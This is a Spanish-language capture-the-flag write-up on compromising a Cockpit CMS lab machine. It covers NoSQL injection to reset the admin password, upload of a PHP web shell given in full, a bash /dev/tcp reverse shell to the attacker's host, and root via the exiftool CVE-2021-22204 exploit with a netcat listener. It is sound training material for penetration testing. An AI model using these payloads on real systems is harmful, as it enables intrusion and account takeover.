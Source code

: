 ### Tags: ``NoSQL``  `RCE` ``exiftool`` ``mongo``

# Escaneo(*22, 80*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/7c1faa27-2654-4b6a-b92e-a3f9f62adda4)

# Port 80

Las web tiene un **panel de login**, intentamos inyecciones SQL pero nada

![image](https://github.com/user-attachments/assets/bb4c2a29-4f9e-48c0-834a-bd0bd9988ba0)

Haciendo `Ctrl + u` encontramos la versión del CMS 

![image](https://github.com/user-attachments/assets/2a0d6248-3e8d-477e-b6db-81cf6aa950da)

 Buscando en Google --> [Link](https://swarm.ptsecurity.com/rce-cockpit-cms/) encontramos que este CMS cockpit tiene algunas **vulnerabilidades** ``NoSQL`` que se pueden utilizar para volcar la **información de los usuarios**, lo que hacemos es interceptar la petición con `BurpSuite`

 ![image](https://github.com/user-attachments/assets/eca60d91-558f-4947-b6c7-2395ccc75ff0)

Ahora vemos que genera un **token CSFR** para la autenticación y podemos ver los **nombres de usuarios** usando el operador ``$func`` de la biblioteca MongoLite. 
	- Obtuvimos 4 nombres de usuarios 

![image](https://github.com/user-attachments/assets/bbe75d12-f0ef-44b6-8891-9149c4740144)

# Inyección NoSQL en */auth/resetpassword*

Ahora la funcionalidad de restablecimiento de contraseñas se realiza mediante restablecimientos de token en `/auth/resetpassword`:

![image](https://github.com/user-attachments/assets/3ef995dd-7e5d-4828-ad92-0a88bb8fe42e)

###  Compromiso de cuenta de usuario

Ahora puedo volcar las credenciales del usuario cuyo token se ha creado ingresando a `/auth/newpassword` el token:

![image](https://github.com/user-attachments/assets/9a0c494c-2c5c-4273-87c3-f122286d4d3d)

Con estos datos , ``--->`` nosotros vamos a poder cambiar la contraseña de administrador e iniciar sesión en la página de ``CMSpit``.
	1. Utilizar la aplicación con la clave API.
	2. Obtener por fuerza bruta la contraseña de la cuenta a partir del hash.
	3. Cambiar la contraseña de la cuenta utilizando el `/auth/resetpassword` método:

![image](https://github.com/user-attachments/assets/9985b0b9-fb47-45bc-bc79-3713d4fcc756)


# Dentro de la Web

Como vemos ahora estamos dentro de la web como el usuario `admin:test123`

![image](https://github.com/user-attachments/assets/e6e738ef-338f-45cf-81fe-1b4687079ba0)

## RCE

Una vez dentro de la cuenta de **administrador**, lo que podemos hacer es cargar un shell web utilizando el componente **Finder** estándar de Cockpit para conseguir la ejecución remota de código:

![image](https://github.com/user-attachments/assets/dd53676d-d49f-4f87-acbc-791a6b92676a)

Antes nos creamos este ``shell.php`` en la terminal para después subirlo

```php
<?php
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```

Una ves subido ponemos la `http://<ip>/shell.php?cmd=id`

![image](https://github.com/user-attachments/assets/0c1234fe-de48-4d4a-8c55-0c0ab61d18d6)

Nos mandamos una ReverseShell ---> `http://<ip>/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261"`

![image](https://github.com/user-attachments/assets/6db8c1d9-a585-4adb-858a-7b293a970a52)

# Escalada (``stux``)

Con este comando `ss -ntulp`   enumero **puertos internos**  y vemos que en este puerto corre **MONGO**

![image](https://github.com/user-attachments/assets/48b814c7-fd39-43b6-bbed-5af7113e25c4)

Tratamos de conectarnos *sin proporcionar contraseña* y tuvimos éxito, ejecutando `mongo`en la terminal.

![image](https://github.com/user-attachments/assets/25c7c203-7318-4659-929f-dce49a2d1078)

Listamos las bases de datos disponibles con `show dbs`, `use sudoersbak` para acceder, `show collections;` para listar las tabas y por ultimo `db.flag.find();` para leer el contenido de la tabla.

![image](https://github.com/user-attachments/assets/cdf50aef-f631-4412-854d-59c379574357)

Encontramos la contraseña del user `stux:p4ssw0rdhack3d!123`

![image](https://github.com/user-attachments/assets/1648eddc-98df-4e7d-9a16-f8ee37b6c3be)
![image](https://github.com/user-attachments/assets/c265100a-5212-44b3-9e91-a9d19251022b)

# Escalada ``ROOT``

Haciendo `sudo -l` podemos ejecutar **exiftool** como root . ---> (me conecte por ssh como stux porque tuve que reiniciar la máquina)

![image](https://github.com/user-attachments/assets/f8dcaee5-25b1-4c3d-a121-dac6fd1ee980)

Buscando en Google de como escalar a root encontramos este [EnlaceExploit](https://github.com/convisolabs/CVE-2021-22204-exiftool), básicamente lo que tenemos que hacer es:

```ruby
git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
cd CVE-2021-22204-exiftool
```

Una ves clonado y dentro del repo tenes que instalar esto: ``-->`` (si te llega a dar **error** como ami, hace un  `sudo apt-get update` y lo instalas)

```ruby
sudo apt install djvulibre-bin exiftool
```

Ahora lo que haces es en la terminal, **te abrís el archivito** llamado `exploit.py` y editas el script poniendo tu **IP** y el **puerto** de escucha que quieras, una ves hecho eso lo ejecutas en la terminal así:

```bash
python3 exploit.py
```

Automáticamente se te crea una imagen llamada `image.jpg`, lo que haces es transferirte esa imagen a la máquina victima de esta forma:

```bash
#máquina atacante
python3 -m http.server

#máquina víctima
wget http://<IP>/image.jpg
```

Una ves que se transfirió la imagen, abrís otra terminal para ponerte en escucha con `netcat` por el puerto especificado, ejecutas con sudo el binario:

```bash
#máquina atacnte 
nc -nlvp <puerto_especificado>

#máquina víctima
sudo /usr/local/bin/exiftool image.jpg
```

![image](https://github.com/user-attachments/assets/b7948fc2-dec3-4afe-bc7c-93767f79f074)

Y listo somos !**ROOT**!

![image](https://github.com/user-attachments/assets/2f2f323c-2c12-40e9-b24f-643865b8fe27)
















